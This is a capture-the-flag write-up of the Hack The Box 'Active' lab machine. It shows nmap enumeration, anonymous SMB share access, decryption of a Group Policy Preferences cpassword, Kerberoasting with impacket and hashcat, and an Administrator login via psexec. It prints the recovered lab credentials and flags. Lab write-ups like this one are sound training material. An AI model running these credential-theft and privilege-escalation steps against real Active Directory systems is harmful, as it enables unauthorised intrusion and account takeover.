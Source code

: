 # Active (Linux)

## Enumeration

### Nmap
I began my enumeration by using an inital (agressive) nmap scan to get results as fast as possible, since some of these boxes may take a while to scan all ports.
```
nmap -p- -Pn -T4 10.10.10.100 --min-rate=5000

-p- for scanning all ports
-Pn for no ping to disable host discovery (only scan for open ports)
-T4 for agressive (3 is default) timing; speeds up scanning but can be unreliable
--min-rate=5000 to send packets no slower than 5000 per second; speeds ups canning but can be unreliable
```
![nmap1](Images/nmap1.png)

I then do a default NSE script with version detection scan on the well-known ports.
```
nmap -sC -sV -p 53,135,139,445,3269 -Pn -T4 10.10.10.100 --min-rate=5000

-sC for default NSE script
-sV for version detection
```
![nmap2](Images/nmap2.png)

### Smbclient
There's nothing too suspicious, so I try poking around smbclient with anonymous login.
```
smbclient -L 10.10.10.100 -N

-L to list shares on a machine
-N (--no-pass) to suppress the normal password prompt
```
![smbclient](Images/smbclient.png)

Replication is a non-default share, so I attempt to go into that share with anonymous login, and it works.  
Using `ls` to list the files, I see a Groups.xml file.  
I use `get` to grab the file onto my local machine.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ smbclient //10.10.10.100/replication -N               
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 


smb: \active.htb\policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\machine\preferences\groups\> ls
  .                                   D        0  Sat Jul 21 00:37:44 2018
  ..                                  D        0  Sat Jul 21 00:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 10:46:06 2018

		5217023 blocks of size 4096. 277102 blocks available


smb: \active.htb\policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\machine\preferences\groups\> get groups.xml
```

After downloading the XML file, I use `cat` to read the contents of the file. It appears to be an XML file crated by a new Group Policy Prefernce (GPP) creation.

```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ cat groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Two important points to note:

	• userName="active.htb\SVC_TGS"
	• cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"


When a new GPP is created, an associated XML file is created containing the password(s). Microsoft encrypts these passwords using AES and stores it as `cpassword`.  
The username is SVC_TGS and the password is GPP encrypted.

Using gpp-decrypt, I can decrypt the password.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ                                 
GPPstillStandingStrong2k18
```
The password for SVC_TGS is GPPstillStandingStrong2k18.

## Initial Foothold
I can now log into the Users share with the user SVC_TGS, using the newly found password.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ smbclient //10.10.10.100/users -U SVC_TGS
Password for [WORKGROUP\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 04:39:20 2018
  ..                                 DR        0  Sat Jul 21 04:39:20 2018
  Administrator                       D        0  Mon Jul 16 00:14:21 2018
  All Users                       DHSrn        0  Mon Jul 13 19:06:44 2009
  Default                           DHR        0  Mon Jul 13 20:38:21 2009
  Default User                    DHSrn        0  Mon Jul 13 19:06:44 2009
  desktop.ini                       AHS      174  Mon Jul 13 18:57:55 2009
  Public                             DR        0  Mon Jul 13 18:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 05:16:32 2018

		5217023 blocks of size 4096. 277084 blocks available
```

I `cd` to go into the SVC_TGS directory, `cd` into the desktop, list the files on the desktop with `ls`, `get` the user.txt, and `cat` to see the user flag.
```
smb: \> cd svc_tgs

smb: \svc_tgs\> cd desktop

smb: \svc_tgs\desktop\> ls
  .                                   D        0  Sat Jul 21 05:14:42 2018
  ..                                  D        0  Sat Jul 21 05:14:42 2018
  user.txt                           AR       34  Wed Nov 29 15:47:53 2023

		5217023 blocks of size 4096. 277084 blocks available

smb: \svc_tgs\desktop\> get user.txt


┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ cat user.txt  
4b88e1b2231905748fb7bd81509eb057
```

## Privilege Escalation
### Kerberoasting
I start by using impacket's GetUserSPNs to get a list of usernames.

```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ sudo impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip 10.10.10.100 active.htb/SVC_TGS

-request retrieves the crackable hash by requesting the TGS
-outputfile <filename> saves the request to a file named hashes.kerberoast
-dc-ip <IP> the IP address of the domain controller I want to request info from
```

Using hashcat, I cracked the password with the rockyou.txt wordlist.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt

-m 13100 is Kerberos 5 TGS-REP etype 23
```
![hashcat](Images/hashcat.png)

^ At the end of that long screenshot, it shows that the password is Ticketmaster1968.  

Using the newly found Administrator credentials, I can use impacket's psexec to log in.  
I then use `cd` to move to the administrator's desktop, `dir` to list the files, and `type` to view the contents of the root.txt file to retrieve the root flag.
```
┌──(kali㉿kali)-[~/Desktop/htb/active]
└─$ impacket-psexec Administrator:Ticketmaster1968@10.10.10.100

C:\Windows\system32> cd C:\users\administrator\desktop


C:\Users\Administrator\Desktop> dir

30/11/2023  03:47                   34 root.txt

               1 File(s)             34 bytes
               2 Dir(s)   1.134.878.720 bytes free


C:\Users\Administrator\Desktop> type root.txt
e6c81669f64d0caa52a10c8ac41b8ed2
```

